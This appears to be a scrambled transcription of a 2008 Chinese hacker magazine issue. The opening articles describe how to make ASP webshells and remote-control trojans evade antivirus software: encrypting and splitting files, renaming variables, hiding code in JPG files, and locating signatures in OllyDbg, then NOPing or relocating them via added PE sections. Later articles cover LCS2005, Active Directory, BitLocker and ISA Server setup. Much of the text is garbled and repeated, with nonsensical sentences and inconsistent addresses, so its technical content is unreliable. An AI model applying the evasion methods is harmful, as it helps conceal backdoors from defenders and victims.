| 标题 | 邮箱 | 适合者 | 前置知识 |
| :--- | :--- | :--- | :--- |
| 马免 | butterfly@hacker.com | 马免爱好者 | 无 |
| 后门 | | | |
| 及周末马免 | | | |
| 文/董亚锐&陆舟一 | | | |

“免免”是指让杀毒软件查的文件不能被杀毒软件查。目前，国内黑技术中火马免无异。以前还登录的文件的章不多，使得“马免”技术并不流行，很多高手早就学会了`shell.exe`之后后门以后可能不会（脚本后）“马免”方面，真实的马免文件和EXE运行之后，都有一定的方法可以使用，应用程序“脚本免”的几个方法可以修改特征、加入代码、修改特征密码等。而我们“脚本免”也有一种的方法如加密、分割文件，以及可以修改特征等。或许，我们有一个“王者马免”，在加密后的详细编译，同时在脚本运行执行的脚本，我们就可以进入脚本和马免的免杀之旅。exe加密的的后门，似乎软件推出了相关的解密包，我已经试过之后并没有解密，不知道是为什么。等下载后用移位法和转换法（针对HTML的），用这种方法制作出来的“脚本免”后门的特征，用这种方法制作合法的“脚本免”效果并不好，我曾用小域脚本免的东西可以用这种方法制作，由于这种方法强度实在不够，通过逻辑加密（ASP才一样的，反正两种方法任选），这种方法是先加密ASP的特征获取，这个方法“脚本免”的在运行上有明显的优势，所以可以不再使用了。原理清楚了，我们再尝试来实现，用的工具的“网页级加密”，可以使用ASP和HTML格式，这种方法就是前面的脚本免位法和逆位法，这里可以加密ASP马免的逆转换，首先选择“打开 -> 生成”，选择海洋0006ASP马免，在“数字”中输入99中的任意一个数字，是52，在中输入加密后运行的加密文件中，使用ASP，之后`http://virassuscit.com/`下载后，点击可以过其中部分马免被杀毒软件查杀了，现在应该清楚地知道这个工具的免疫力了吗？如果使用`shell.exe`之后对马免进行加密，在加密之前把前后的密码加密，不加加密后，就什么都不敢了我所指的，可能还没有人能解密`shell.exe`。

## 正文免杀

这个五个免杀的方法，还有该方法的工具就需要加密工具，其中几个具有代表性的工具，首先是处理前面的`shell.exe`之后，这种工具功能强大，强度高，强。效果如何呢？我们用一个“海洋0006ASP马免”来试试，先用`马免.exe`加密后2006ASP马免，海洋0006ASP马免（免杀版），反正我们


如图所示，移位法和转换法，这种方法制作出来的“脚本免”后门的特征，用这种方法制作合法的“脚本免”效果并不好，我曾用小域脚本免的东西可以用这种方法制作，由于这种方法强度实在不够，通过逻辑加密（ASP才一样的，反正两种方法任选），这种方法是先加密ASP的特征获取，这个方法“脚本免”的在运行上有明显的优势，所以可以不再使用了。原理清楚了，我们再尝试来实现，用的工具的“网页级加密”，可以使用ASP和HTML格式，这种方法就是前面的脚本免位法和逆位法，这里可以加密ASP马免的逆转换，首先选择“打开 -> 生成”，选择海洋0006ASP马免，在“数字”中输入99中的任意一个数字，是52，在中输入加密后运行的加密文件中，使用ASP，之后`http://virassuscit.com/`下载后，点击可以过其中部分马免被杀毒软件查杀了，现在应该清楚地知道这个工具的免疫力了吗？如果使用`shell.exe`之后对马免进行加密，在加密之前把前后的密码加密，不加加密后，就什么都不敢了我所指的，可能还没有人能解密`shell.exe`。

## 特征修改

大家都知道特征码的好处，我觉得这很难。首先将海洋码分成N部分，然后用特征码对它修改，选择4个特征，再次还原，运行。如果是名的，版权文字都是特征码。修改建议，不过如果你看到“盗版”行为可以对其进行修改或修改，或者其他部分，等特征加密。

第一个，我把`CALL`和`POP`替换了底层结构，其中用`JMP 45:C5A7`是一样的，只不过是用了这种技巧，把`JMP`替换了`CALL`，原本的`ADD`改成了`JB`，这部分前面已经说过了。`ebx.0x00000`改成了 `add eax,add_eff:FFF3000`，"`FFF3000`"是"`000000`"的的形式。

## 免兔技巧

| Offset | 0 | 1 | 2 |
| :--- | :--- | :--- | :--- |
| 00000000 | FF | DB | FF |

标记了。在Windows启动后海洋病毒TOP，可以用代码来修改免兔头部处为`20 01 20`。这是例如：

| Offset | 0 | 1 | 2 |
| :--- | :--- | :--- | :--- |
| 00000000 | 00 | 20 | 20 |

图所示，我们把三个`20 20 20`改成“`FF DB`”，保存后，用杀毒软件查一下，是不是不再报了？

## 分段合并

“免壳”方法已经用了，再来看一次分段合并。用C语言的办法就是`include`和`include`的方法。例如`<stdio.h>`是告诉编译器在程序中需要标准库，输出文件时，用`include <文件名>`即可。在源文件中，用`include <文件名>`作为源文件的引用，需要把海洋码分成N部分，然后用`include`包含起来，否则无法使用C语言了。先介绍一个小技巧，修改大小不会影响特征码，但是影响特征码的判断力，可以对编写特征码进行大小转换，成大力ang。另一个方法是，把变量名替换成大力ang大家记住在ASP语言中通过变量名来控制显示，我们可以用大力ang顶层码写成大力angArray这个字符串，改后字符串成了大力angArray，类推。这种方法可以实现免壳，不需要修改变量了。

## 编写特征码


还有一种方法是不需要生成特征码，把写出来的变量名改成新的，把所有的变量名改成大力，然后重新运行。注意，所有的变量名必须符合要求的，这样不需要在当前中使用变量了。这样有经验的作者就可以发现了，因为特征码在ASP和HTML中是不明显的，只有有经验的作者可以作为特征码编写。对此的作者可以实际一下。最后用海洋码替换层部分，就可以看到了。看到完海洋码后，JPG图片，这张图片打开后它就是这张图片的了ASP特征码效果没有差，这种方法其实很简单，使用即可。

```
Set rs = Server.CreateObject("ODB.Record")
```

这一句代码，中的`ODB.Record`是连接数据库的工具，对于我来说，在其中加入ASP变量之后，把`Set rs = Server.CreateObject("ODB.RE")`

最后就看到了大力ang大力的，最后是关于特征码的问题。看到完海洋码后，JPG图片，这张图片可以从上往下找到JPG图片。这张图片打开后，只能看到特定的内容，用其他标签找到这张图片，打开后看到很多代码，由于我们现在是ASP代码了，所以作者不知道怎么处理了，因为特征码的开头就是我们的，如图所示，它编辑了这张图片的JPG文件。特征码没有差。


“第一步”是在开始的时候留出一个空区域，如果没有空区域就写进去，就会出错的。也许有人会问，ASP程序也能加，但不能了，因为我比你新手，这种方法是用海洋码顶层部分，在开头加上三个空格（至少少三个空格，留两个即可），这样这设置就加好了。我们用16位编辑器打开JPG文件，可以看到最后的`FF D8`，如图所示


www.hacker.com 2008年08月27日 制作维护

## HACKER TOOLS ATTACK&DEFENSE

此，本文三个代码写完了，也叫了脚本免兔的三分之一之一。在以后的“中”和“下”篇，我将详细的介绍HTML网页马的免兔（包含内核免兔和落地部分），以及PHP和MS语言脚本的免兔，最后介绍一类脚本免兔的一些小技巧，在实际免兔中使用的这些实用方法（如如何识别特征、加密、大写在ASPX中的免兔非常复杂，适用于小型字体后门（`diy.asp`），使用免兔技巧

## 远控


指向->导出->导出为。“如图1所示，然后把这个文件保存为DLL的文件（不改文件名），这样进程文件就会出来了，下面我们会介绍如何对这个DLL文件，对于这个DLL文件，一般用加壳来修改免兔范围。以前杂志上的免兔都是针对免壳，而没有免兔（针对后门），现在来看免兔，这些特征由于主服务的内存特征被找到了，这项工作只需要修改特征了，我的方法是：首先在加密用工具.2000.1中，用这个工具找到服务器端，然后点击`Add.section`，在pick文件中选择加密后的服务端，然后输入“Enter a name for the new section”在输入框中输入新的名称，然后输入“Enter of bytes to add in (hex):”中重新插入需要的大小，然后点击OK，最后你会看到New Section部分就添加完了，如图所示


下面就到了本重点。实现主服务器端的目标，是特征`0040AB3`，只需要通过加密的内存特征就可以，用它查找这些杀毒的内存特征并将其替换为病毒码了。由于这里病毒码针对特定的修改，其他的特征全部全选后，点击打开，然后点击`OPD`按钮，点击打开选择加密后的主服务器端程序，将其运行程序完毕后，就可以生效了（注意，这里有OD的之后就生效了。点击查看，特征在后不用管，点击取消）。由于只有这个插件在运行是可能的，以及这些是不符合特征要求的，所以我们只需要针对这一个特定的特征，在OD字段中找到`0040ACF`的所有特征（也就是主服务器之前的代码），在特征处点击右键，在弹出的右键菜单中选择跳转，命令在跳转的输入框中输入`NOP`（不用）后，按单击按钮，程序就会被挂后，回到了，再次查看，特征是显示有说明主服务器端的特征在，我们回到`0040AB3`至`0040B62`地址，我们重新编写程序，直接在`0040AB3`处，将`0040AB3`替换`00405CE`的代码替换为`NOP`后，就把`0040AB3`替换`0040B62`的前一半，然后重写单字节查找`NOP`后，说明特征已我们找到`NOP`后，重将`0040AB3`替换`0040B62`的后半部分为`NOP`后，成功。通过选择调试小窗口，最后确定可以将主服务器端的特征在`0040AE8`至`0040BF18`为止，由于主服务的内存特征被找到了，这项工作只需要修改特征了，我的方法是：首先在加密用工具.2000.1中，用这个工具找到服务器端，然后点击`Add.section`，在pick文件中选择加密后的服务端，然后输入“Enter a name for the new section”在输入框中输入新的名称，然后输入“Enter of bytes to add in (hex):”中重新插入需要的大小，然后点击OK，最后你会看到New Section部分就添加完了，如图所示。再次点击PEID，这里EPID处出现，如图4所示，在在这里找到对应的特征名，记住这个地址，这里就是`00000000`，然后用地址加上新的开始的地址了，我们就在程序段中找到了开始的地址了，这里


HACKER DEFENSE | www.hacker.com

©2006-2008 著作所有 转载 (注：此处已重复)

## HACKER ATTACK DEFENSE

程序在运行到它的特征码就会跳转到相应区域对抗，执行后，再回去同一个执行，不会影响程序正常运行，但是就找不到了。在`OP`中搜索，右键，复制可执行文件，勾选“修改”，改“命令”，并将文件重命名为`.exe`的文件，这文件不需要额外服务`DLL`内存保存了。然后这就来修改服务器端的特征文件了。

| 地址 | 字节 |
| :--- | :--- |
| 004046B0: 00 00 00 00 | E8 00 00 00 00 |
| 004046B4: 55 8B EC 8B | 89 45 00 75 E0 |
| 004046B8: 8B 45 00 85 | 8B 45 00 00 |
| 004046BC: 8B 45 00 85 | 74 44 00 00 |
| 004046D0: 00 00 00 00 | 00 00 00 00 |
| 004046D4: 00 00 00 00 | 00 00 00 00 |
| 004046D8: 00 00 00 00 | 00 00 00 00 |
| 004046DC: 00 00 00 00 | 00 00 00 00 |
| 004046E0: 00 00 00 00 | 00 00 00 00 |
| 004046E4: 00 00 00 00 | 00 00 00 00 |
| 004046E8: 00 00 00 00 | 00 00 00 00 |
| 004046EC: 00 00 00 00 | 00 00 00 00 |
| 004046F0: 00 00 00 00 | 00 00 00 00 |
| 004046F4: 00 00 00 00 | 00 00 00 00 |
| 004046F8: 00 00 00 00 | 00 00 00 00 |
| 00404700: 00 00 00 00 | 00 00 00 00 |
| 00404704: 00 00 00 00 | 00 00 00 00 |
| 00404708: 00 00 00 00 | 00 00 00 00 |
| 0040470C: 00 00 00 00 | 00 00 00 00 |
| 00404710: 00 00 00 00 | 00 00 00 00 |
| 00404714: 00 00 00 00 | 00 00 00 00 |
| 00404718: 00 00 00 00 | 00 00 00 00 |
| 0040471C: 00 00 00 00 | 00 00 00 00 |
| 00404720: 00 00 00 00 | 00 00 00 00 |
| 00404724: 00 00 00 00 | 00 00 00 00 |
| 00404728: 00 00 00 00 | 00 00 00 00 |
| 0040472C: 00 00 00 00 | 00 00 00 00 |
| 00404730: 00 00 00 00 | 00 00 00 00 |
| 00404734: 00 00 00 00 | 00 00 00 00 |
| 00404738: 00 00 00 00 | 00 00 00 00 |
| 0040473C: 00 00 00 00 | 00 00 00 00 |

图 5

这里是`0042D000`。

处理完后，用OD插入顺序，按`Ctrl+G`，在弹出的窗口输入跳转地址的好地址，在第一行开始，才找到了特征码。然后回到特征码的那个地址，用特征跳转上的命令修改为`NOP`，在跳转的第一行`jmp 0042D000`，就是我跳转到的那一个特征码的地址（也就是第一处跳转）跳转的最后一个特征码的下一行的地址，这里是`00406B1C`，前面的方法可以跳转到区域特征码在特征码的最后一行的下一一行`jmp 00406B1C`（为跳转的地址）。这样

### 适合者：木马喜欢

### 前置知识

## 木马东爪位定位对抗


文/XX

木马东爪位定位对抗，木马把一个小伙给杀掉，简直就是一个谁也不想见的。在有的电脑里没有木马？如果程序变成了杀毒，市场占有率还有高吗？晚上回来后发现木马2025版的虽然没好久了，但是在内存里面都被改了（主攻防御），测试执行，上线后，QQ1.4版本显示号如图所示！

### 特征码：

| 进程 | 文件 | 版本 | 状态 |
| :--- | :--- | :--- | :--- |
| `QQ.exe` | `C:\Windows\...` | | 运行中 |

图 1

（此处省略原文中重复的乱码及特征码描述）

## HACKER ATTACK DEFENSE

程序在运行到它的特征码就会跳转到相应区域对抗，执行后，再回去同一个执行，不会影响程序正常运行，但是就找不到了。在`OP`中搜索，右键，复制可执行文件，勾选“修改”，改“命令”，并将文件重命名为`.exe`的文件，这文件不需要额外服务`DLL`内存保存了。然后这就来修改服务器端的特征文件了。

处理完后，用OD插入顺序，按`Ctrl+G`，在弹出的窗口输入跳转地址的好地址，在第一行开始，才找到了特征码。然后回到特征码的那个地址，用特征跳转上的命令修改为`NOP`，在跳转的第一行`jmp 0042D000`，就是我跳转到的那一个特征码的地址（也就是第一处跳转）跳转的最后一个特征码的下一行的地址，这里是`00406B1C`，前面的方法可以跳转到区域特征码在特征码的最后一行的下一一行`jmp 00406B1C`（为跳转的地址）。这样

### 定位特征码

打开要进行特征码的文件。

目标检测 | 邮箱:butterfly@hotmail.com

| 文件文档 | 内存 |
| :--- | :--- |
| `RawOffset` | `ImageBase+RVA` |
| `00061BAE` | `0004672EA` |

图 5

`000467EA`: `66` `ins 字节 ptr edx`，用OD进行修改，机器码是`66`，把跳到一点，看着最近的地址，比如如图6所示，相同，如果有ASCII字符时，把字母替换成连接，就能得到“`System is Base Kernel.Cal`”。这时，这里确保没有特殊字符，所以这里可以把ASCII字符，不能把`66`改成`4C`了，可以真的，按住左键，向下选择一项，其中包括`004672EA`这个地址，如图所示！

用OD数据范围，全部`NOP`，这样就会修改`00045000`到`00045800`全部`NOP`，把跳转到放大后再用`Shift`键，把跳转向下到相应窗口中，全部选择，点击“撤销修改”。图8所示，从地址`00045000`到`004171CA`这里全部修改了。

## ISA Server 2004

适合读者：管理员、系统管理员、IT管理人员

前置知识：基础知识、企业级架构、MCSE

### 服务器化：Communications Server 2005

感谢您能再次关注，在之前的几期加载中发表了ISA2000的文章，分析了ISA2000的应用以及企业级实施策略，希望这些为大家的学习和工作带来帮助。本次我们将带来一份干货——深入解析消息交换系统：Communications Server 2005（LCS2005），LCS2005可以作为企业或单位提供一种管理和扩展的企业级解决方案，或者直接在Active Directory中使用。Active Directory是目前许多企业应用中已集成的，应用十分方便，这也是许多小型企业正在使用的消息交换平台，我们在文中也将相关的介绍，如：

首先需要部署AD，我们通过“添加/删除”中的“添加/删除组件”来进行AD的安装，或者直接在配置服务器上引导，这样比较简单，如图所示！

| 配置服务器方法 |
| :--- |
| 方法1：通过“添加/删除组件”来安装AD，或者直接在配置服务器上引导。 |
| 方法2：直接在配置服务器上引导。 |

说完了，下一步是开始在网络环境中部署AD，安装LCS2005之前，要确保网络环境中已经部署了AD，Windows Server 2000或Windows Server 2003全局都需要至少一个全局域控制器，来保证DNS的注册生效，安装LCS2005的软件需要Windows Server 2000 Standard Edition、Windows Server 2003 Enterprise Edition、Windows Server 2003 Datacenter Edition中的一种，由于LCS2005可以支持标准版和企业版，可以根据业务的要求来选择，或者根据标准的版本选择LCS2005以Microsoft Server Desktop Engine，如果企业版本的LCS2005可以选择Windows Server 2003SP0或LCS2005 SP1，对于企业的业务涉及服务的组和场所来说，对于初级程度较大的，这里将详细讲解LCS2005 Standard Edition的定义。

我们选择“自定义配置”点击“下一步”，因为我们要自己定义要安装的角色和服务。在服务器角色中选择“控制器（Active Directory）”后进行安装，如图所示。接下来会出现“选择角色”列表，勾选角色：

| 角色 | 描述 |
| :--- | :--- |
| 域控制器 | Active Directory, DNS, CIF, AD RS, (QIP, LDAP, Kerberos) |
| 域服务器 | |
| 目录服务 | Active Directory Services |

简单的下一步了，点击“下一步”。显示了，在后续我们会询问用户如何设置这个角色，我们选择“新的域”，如图3所示。点击“下一步”后会创建一个新的域，相同的，我们会选择“现有域”，如图4所示。

# ADMINISTRATOR CLUB

> Active Directory 导向 | 热标题 ) liuli@hacker.com

## Active Directory 安装导向

 域名称

输入要配置的数据库的名称。

若要更改数据库的名称或创建新的域树，请点击‘其他’：

- 点击下一步
- 检查域名称是否正确，比如将域名称更改为本地域名
- 点击下一步
- 检查域名称的选项
- 如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 检查域控制器安装路径。如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 安装完成后，将点击‘完成’并重启计算机


## Active Directory 安装导向

 域名称

输入要配置的数据库的名称。

若要更改数据库的名称或创建新的域树，请点击‘其他’：

- 点击下一步
- 检查域名称是否正确，比如将域名称更改为本地域名
- 点击下一步
- 检查域名称的选项
- 如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 检查域控制器安装路径。如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 安装完成后，将点击‘完成’并重启计算机


## Active Directory 安装导向

 创建一个域

选择要配置的数据库的名称。

选择一个：

- 创建新域
- 将新域添加到现有树中
- 检查域名称的选项
- 如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 检查域控制器安装路径。如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 安装完成后，将点击‘完成’并重启计算机


## Active Directory 安装导向

 域名称

输入一个名称，例如：contoso

contoso.com

corp.contoso.com

sales.contoso.com

 检查域名称的选项

- 如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 检查域控制器安装路径。如果没有问题，点击‘下一步’；如果错误，则点击‘其他’：
- 点击下一步
- 安装完成后，将点击‘完成’并重启计算机


## Active Directory 安装导向

 域控制器名称


# Live Communications Server 2005 部署

输入要配置的数据库的名称。

输入一个名称，例如：`DC01`

`DC01.contoso.com`


步骤可以在这个 DC（域控制器）上安装配置 DNS 服务器，如图7所示。

完成安装之后，系统会要求重启计算机。此后 AD 和 DNS 就算都安装完成了，接下来就是安装 LCS2005。执行 LCS2005 的安装程序后将出现安装界面，如图8所示，点击“Standard Edition”（S），在出现的安装界面中按照步骤依次进行安装，图9所示。

Live Communications Server 2005 with SP1

Standard Edition

许可条款

- 我已经阅读并接受软件许可条款。

选择安装类型

- 完全安装：安装所有 Communications Server 功能
- 典型安装：仅安装必要的 Server 功能
- 自定义安装：允许用户选择安装的功能

下一步

选择功能

在此处选择您要安装的功能。

下一步

目标位置

在此处选择安装文件的存储位置。

下一步

准备安装

确认安装信息是否正确。

安装

等待安装完成


Live Communications Server 2005 with SP1

Standard Edition

就绪

安装完成后，将重启计算机。

下一步

配置服务器

在此处配置您的服务器设置。


首先是要准备框架（S），之后 LCS 将对系统的 AD 域结构进行一些修改，以达到要求，如图10所示。

欢迎使用“配置向导”

此配置 Live Communication Servers 2005 的 Active Directory 扩展。将配置 Live Communication 服务器与用户所在的 Active Directory 扩展。例如，CS2005 文件可以包含 Active Directory 扩展。

配置需要，点击“下一步”。


单击“下一步”后，LCS 会提示用用户结构指定一个项目，默认选择。如果有特殊的要求可以选择其他项目，请根据自己的实际情况进行操作，如图11所示。


之后就是一路的“下一步”进行安装部署。当完成“架构框架”后，用户需要留意：点击“完成”或“继续”，在执行上点击即可开始安装 LCS2005。安装部署后，首先要安装 MSD 和配置，如图12所示；完成后会看到一个提示，询问是否要激活服务，我们要选择 LCS 创建一个用户账号，如图13所示。


我们所选择的 LCS 用户，请务必在连接 LCS 时记住密码。但要注意一下，添加的密码不能使用简单密码。如果你使用简单密码会导致错误，如图14所示，因为在 AD 域中是不允许使用简单密码的，同时确认密码策略非常重要。配置服务器密码的最小字符、有效期等，这些策略是可以修改的，但不建议在真实环境中停止，因为太安全了，如图15所示。


然后我们可以使用 LCS2005 的控制台查看和配置。可能有一个版本在 Windows Server R2 版本，但是这个版本可能会发现激活 LCS2005 的管理控制都是空的，只能看到一个窗口里面什么都没有。通过 `MMC` 添加配置很简单：打开“运行”，在运行框中输入 `MMC` 并回车，找到“文件-添加服务器”，然后点击“选择”后“添加 Live Communication Servers 2005”，如图17所示。完成后即可看到 LCS2005 的管理控制台，如图18所示。

首先打开“管理工具”里的“DNS”控制台，我们需要添加一台主机记录。如果你按照前面介绍的方法进行操作的话，基本上可以，因为 DNS 中已经有记录了。如果问你还要加这一步呢？道理很简单，如果 CS2005 之后在同一计算机上的时候，就需要在 DNS 服务器上加上 CS2005 服务，这里就是 DC 在同一计算机上的情况，所以加上 DNS 记录的步骤，见图9。


DNS 设置好就要对用户设置了。记得在安装 CS2005 后添加 LCS 用户吗？给他们做一个简单的设置，然后点击“Active Directory 用户和计算机”，用 LCS 登录后在属性中设置登录名，然后在“Live Communications”中给用户权限。以 LCS 登录为例，本地方法-debug，见图21所示。

完成以后，我们就可以进行测试了。一般习惯用客户端登录来验证设置。那么大家如何使用客户端？估计有一人用 Windows7 版了，不用，这次我们将使用新的客户端，由于是 Active Directory Messenger，至于它是什么客户端，后面再介绍。现在来给大家介绍一款很好的调试工具。


| 步骤 | 标题 | 选项 | 结果 | 备注 |
| :--- | :--- | :--- | :--- | :--- |
| 第一步 | 连接到服务器 | Communications | | |
| 第二步 | 选择服务器 | Server Resource | | |
| 第三步 | 选择程序 | `LCDdiag.exe` | | |

使用 `Kit.exe` 用于 LCS 部署和实施关键问题的实施，简单且了。不要安装时千万注意其路由路径，因为要最好以后可以提供任何快捷方式，用所有可持。


在文件夹中找到它，我们只需要在服务器菜单中找一个名为 `LCDdiag.exe` 的文件就可以了，如图22所示。


在右侧的工具中有多个选项，选择 TCP/TLS Connectivity。在打开的窗口中，我们需要输入服务器的 FQDN，端口为 8060 或 8561，或者使用设置好的设备确定。由于它们还没有被设置 TLS，所以选择 TLS 类型，连接完成后就可以开始了，如图23所示。

该工具连接速度非常快，马上就会给出提示，如图24所示。图中可以看到 LCS 和服务的连接全部成功了，将不会通过连接发出警告。如果出现红色错误信息，则需要接下来再去连接终端。在工具中选择“Diagnostic Client”后出现一个页面，如图25所示，模型将进行，示例中名称为 `LCDdiag@local`。


LCS 设置完成后，点击“Next”，设置服务器的 FQDN 和连接，完成后点击“Finish”，界面上会显示结果。如果出现红色信息，就要仔细检查 LCS 服务已经连接，或者用户设置是否正确。如果出现错误信息，告诉我们部署的 LCS2005 在正常范围内运行就可以了。好了，现在你已经使用客户端了，通过 LCS2005 使用的是 Windows Messenger，还有 Office Communicator 2005，已经有了版本，再次方便了。


配置并可以正常登录服务器之后，我还要在 AD 管理中添加一个用户。然后客户端登录 Office Communicator 2005 后，联系他人即可，如图31所示。至此，本例结束了。LCS2005 Standard Edition 试验成功了，这仅仅是 CS2005 的一个用户部署，还有相关的设置与部署就像这样。我们需要操作（工具）部署，整个网络结构 AD 管理以及所有服务器之间的标准和复杂的部署需要集群和负载均衡问题。在这些部署过程中大家都会看到很多细节，不用担心，只要认真分析就能找到关键，即使不是一次性的。最后感谢大家花时间阅读我的文章。微软网站提供了 LCS2005 SP1 免费试用，其中包含中文和英文，同时还有技术文档，感兴趣的朋友可以尝试一下。


图26

图27

图28

图29

图31

输入相关用户信息，登录服务器如图30所示。此时我们是在服务器端已经成了。

# Debugging Tools for Windows

适用读者：无

## 服务器异常重启的线索

图1 截图，公司的服务器最近总是莫名其妙的重启。在这次事件之前，公司服务器并没有添加新的硬件，也没有安装任何软件，包括打新的补丁。我怀疑硬件出了问题，可能是电源或 CPU 风扇出了问题。当我发现重启时温度会升高，计算机会自动重启或关闭，甚至重启后还是正常状态。我发现电源和 CPU 风扇运行正常，服务器本身的指示灯显示这还是了，还是正常的问题，看来最好要检查一下硬件，以便定位故障，是从服务器入手，这里就是寻找线索的地方。我先记录了一些事件日志，之后有了造成问题的证据，看来可以从一个系统来分析安装之后引起，在文件菜单中选“Open Crash Dump DUMP文件”，如 `SYMPDI.SYS`，注意大家查看代码中的第二行。


```
Probably caused by SYMPDI.SYS
SYMPDI=s84a
```

# BitLocker 驱动器加密

适合工具爱好者、网管

前置知识：无

BitLocker 驱动器加密是一项新功能。它的效果如何？如何实施？有什么要求？能缓解哪些安装风险？很多朋友告诉，由于实施它时要面对一些限制条件，也真正操作期间的朋友不多，本文将以实操为例，探索 BitLocker 驱动器加密的方面。

要注意的是，安装完成后，安装 Vista 所在的区域将自动识别 Vista 为 C 盘，其余分区按照安装前的顺序识别为 D 盘（本例中为分区1）、E 盘（本例中为分区3，本例中为分区4），Vista 安装到其容量为 NTFS（Vista 的要求）的逻辑分区进行 BitLocker 驱动加密。

硬件要求：主板内置 TPM 芯片，或者使用 U 盘。本文将讨论用 U 盘加密。软件要求：使用 Vista 版本（Enterprise 或企业版），可以使用 Windows Long Server。

分区可以活动的活动和逻辑分为若干区块，其位置任意，按照需要使用 BitLocker 的驱动器要求，活动的分区要在安装 Vista 时，必须为 NTFS 格式，这是安装 Vista 的要求，不是 BitLocker 的要求，推荐容量为 15GB 或以上。


TPM 芯片在电脑上运行，可以将其存储在其中。由于 BitLocker 在电脑启动的阶段将验证加密，因此，还需要修改 BIOS 以便进行检测。


## 实施方案

### 1 分区

按照安装要求，对所有磁盘在硬盘上创建分区。所示所示，分区1为活动分区，分区2为 D，要实施 BitLocker 驱动器加密，有若干分区足够，为验证不能对其加密分区，要笔记本只分了3和4个分区，它们都是 NTFS 格式。

### 2 安装

全新安装 Windows Vista，选择旗舰版或企业版，它本身不支持 BitLocker 驱动器加密，我们将 Windows Vista 安装到分区2中，则无其他要求。


如果已经加密了分区，分区可能会出现安装与 BitLocker 驱动器加密的请求。（活动的分区和逻辑分区分为若干区块，只有活动分区需要加密），以免重启后无法完成分区加密。我们提供了两种方法解决这个问题：一个是通过重启，下载 Vista Drive.Preparation Tool，或在重启后已加密 Vista 的磁盘的基础上进行加密；这需要使用特定的命令来执行并完成，具体情况请查阅相关帮助。

### 3 实施加密

#### A. 策略加密

这种情况下，用 Vista BitLocker 驱动器加密不需要重启。要在策略中进行，按 Windows+R 组合键，打开 `gpedit` 编辑器。在左侧控制台中查找策略管理—计算机配置—Windows 组件。在策略加密编辑器右侧窗口中执行以下操作：控制面板设置，启用高级启动，双击，从侧的“策略属性”中选择。

有硬件 TPM 则使用 BitLocker，如图2所示。


| 设置 | 状态 |
| --- | --- |
| 控制器 | 启用 BitLocker 加密 |
| 恢复密钥 | 已创建 |
| 启动密钥 | 已创建 |
| 有硬件的 TPM 启用对 BitLocker 加密 | 正在使用 TPM 生成的密钥 |
| 只有 TPM 启用使用自定义启动密码或密钥 | |
| 如果需要，输入启动密码，例如 | |
| 阻止 BitLocker | |
| 启用 BitLocker 加密 | |
| 至少 Windows Vista | |
| 否 | 否 | 否 |

图2

控制面板设置：配置恢复密钥，双击，点击“启用”，在“配置恢复密钥路径”中手动输入一个文件的绝对路径，如 `D:\Bitlockerkey`。

配置加密：选择你想要加密的方法，如使用 AES 的 256 位。

#### B. 加密

首先插入 U 盘，然后点击控制面板 BitLocker 驱动器加密，将弹出图3所示的状态框，点击“启用 BitLocker 加密”让加密过程启动，然后按照提示操作。


图3

★ 设置 BitLocker 启动选项“每次启动时要求使用 USB 密钥”。

★ 保留启动密钥选择 U 盘——已插入 U 盘。

★ 保存恢复密钥如图4所示，可以将恢复密钥保存到 U 盘、文件或现场打印。如果需要需要，可以先保存到 U 盘后再进行检查，选择 U 盘文件时不能直接加密 U 盘所在的区域。本文中如果分区为2或者选择其他分区进行加密时，务必确保先创建一个新的文件。


图4

★ 加密此分区如图5所示，被加密的加密方法是 C（中文）语言理解为加密吧！其实，在前面的分区中，无一种方法选择分区进行加密，因此只能选择 C 盘安装 Vista 的分区。本例中以分区为例


图5

★ 1、3、4 在内都不能加密，只有通过“启用”BitLocker 系统检查，再次点击“继续”，电脑会重启加密，并在重启后自动完成加密。

★ 完成完成后，在 U 盘上加密指定的文件夹下找到一个文件，它们的内容完全相同，确保保存的就是 BitLocker 密钥。我们不要为 BitLocker 加密驱动器常规用法不受影响，还可以存放文件，最好不要用。


#### 4. 验证加密

如果没有经过上述界面的设置；否则在图3中显示“启用 BitLocker”，则分区将显示对应的提示。


A. 加密U盘启动后，可在屏幕显示基本信息，观察到即可“已使用 BitLocker驱动器加密”清除磁盘存储特征。此磁盘若已加密，只需取一个U盘重新加密。

B. 无U盘启动后，可在屏幕显示基本信息，观察到所示的提示。如果能够正常加密硬盘，若能启用，则不能加密，此时硬盘控制权交给操作系统，在BIOS的控制中，此方法适合存在硬盘中的文件进行加密。


图6

C. 破坏使用BitLocker驱动器的硬盘下，将接到电脑上，插入U盘后，电脑也不能启用BitLocker驱动器会自动加密数据。等待后即可提供任何保证（包括U盘并加密）。糟糕的是，禁用时不提供任何安全全无用后，“BitLocker”会显示为“BitLocker”即可恢复加密★加密选择此选项时BitLocker驱动器将加密，解密时不需要任何安全保证。

5.BitLocker密码加密启用BitLocker驱动器加密，看到后点击关闭“BitLocker驱动器”和“管理”BitLocker加密两个选项。A. 禁用BitLocker选择后，可以在一个界面禁用BitLocker驱动器加密或“解密”此，“★BitLocker驱动器加密若选择此选项


图6

## 部署 Server 2006企业版

适合读者：管理员、企业人员

前置知识：基础知识、MCSE、ISA2004应用

在以前的内容中我们详细介绍了ISA2004的安装、初始和企业部署方案，针对ISA2004的特殊部分进行了讲解和演示，很多朋友已经对ISA2004再次熟悉，或者已经在自己的企业中应用了。以前的内容基本上涉及到ISA2004企业版的内容，为了让大家感受到ISA2004企业版防火墙组件的威力，我们将继续加强维护，让大家理解ISA2004防火墙组件的实用价值。

肯定有朋友要问我，ISA2004与微软的升级会有问题吗？如果是ISA2004的错误，在功能上已经修复了吗？如果在ISA2004发布服务器时支持Exchange站点支持，发布服务器时怎么办？ISA2007在服务器发布时，ISA2004可以通过服务器的方式来实现吗？如果添加了AP如何支持对微软不同的服务器证书？在安全服务器发布时ISA2004中集成了证书存储，DiffServ的选项可以支持HTTP流量，这些功能在ISA2004中已经实现，或许大家可以访问网址`http://www.microsoft.com/tech/isa/default.aspx`获取详情。

